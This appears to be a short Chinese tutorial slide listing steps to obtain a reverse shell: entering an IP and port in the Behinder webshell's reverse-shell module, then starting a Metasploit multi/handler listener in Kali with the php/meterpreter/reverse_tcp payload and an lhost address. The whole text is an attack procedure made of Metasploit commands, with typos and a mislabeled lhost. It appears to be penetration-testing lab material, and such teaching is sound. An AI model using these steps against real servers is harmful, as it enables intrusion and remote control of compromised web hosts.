

# 反弹shell
1、在冰蝎反弹shell模块填上ip和端口
先打开kali的msf监听设备 在命令框中输入msfconsol在
2、Kali                              msfconsole
3、加载exploit                    use exploit/multi/handler
4、使用playloafd                set payload php/meterpreter/reverse_tcp
5、查看设置                       show options
6、设置连接主机                set lhost 192.168.43.61（靶机）
7、再次查看设置看靶机脸上没有 show options
8、执行exploit命令            exploit
9、然后冰蝎里点击 给我连